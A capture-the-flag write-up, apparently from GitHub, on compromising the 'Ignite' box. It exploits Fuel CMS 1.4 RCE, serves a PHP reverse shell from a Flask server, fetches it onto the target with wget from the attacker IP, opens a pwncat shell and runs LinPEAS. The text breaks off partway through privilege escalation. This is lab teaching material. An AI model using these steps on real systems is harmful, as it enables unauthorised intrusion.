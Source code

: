 # Ignite

**CTF Domain: Ignite.ctf**

## Scans

```rustscan -a Ignite.ctf```
```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

## Eumeration

Rustscan shows 1 port open: :80

Navigating to the website we see the Fuel CMS logo and a version number (1.4)

Running searchsploit to find exploits for that version, three RCE vulnerabilities were found

Since Python is my main language, I downloaded the Python script


## Exploitation

The script works for simple commands, but it seems to throw an error when a slash is in the command

This is an issue as most one line reverse shells require a slash

To work around this, lets make a simple Python script to host a website with a reverse shell

First copy a php reverse shell into your directory and set the IP and port of your listener

Then start a pwncat listener with the platform set to Linux: `pwncat --platform linux -l :9998`

Finally, create a Python script with this code and run it (make sure Flask is installed):
```
from flask import Flask
app = Flask(__name__)
@app.route("/", methods=["GET"])
def main():
    with open("php-reverse-shell.php", "r") as f:
        return f.read()
app.run(host="$IP", port=80)
```

We can then send a simple wget command with our web server: `wget 10.6.122.20 -O revshell.php`

And use a web browser to navigate to our web shell: `http://ignite.ctf/revshell.php`

Now you have a user shell!

## Privilege Escalation

### PrivEsc with Pwncat


run enumerate.file.suid


As always, we'll run LinPEAS to see what we can get

Run these commands and capture LinPEAS output to results.txt so we can read it later

```
(remote) www-data@ubuntu:/$ cd /tmp
(remote) www-data@ubuntu:/tmp$
(local) pwncat$ upload linpeas.sh
(remote) www-data@ubuntu:/tmp$ chmod +x linpeas.sh
(remote) www-data@ubuntu:/tmp$ ./linpeas.sh | tee results.txt
```

Normally, pwncat is great with uploading files but it seemed to have an issue today

/etc/ImageMagick-6/mime.xml

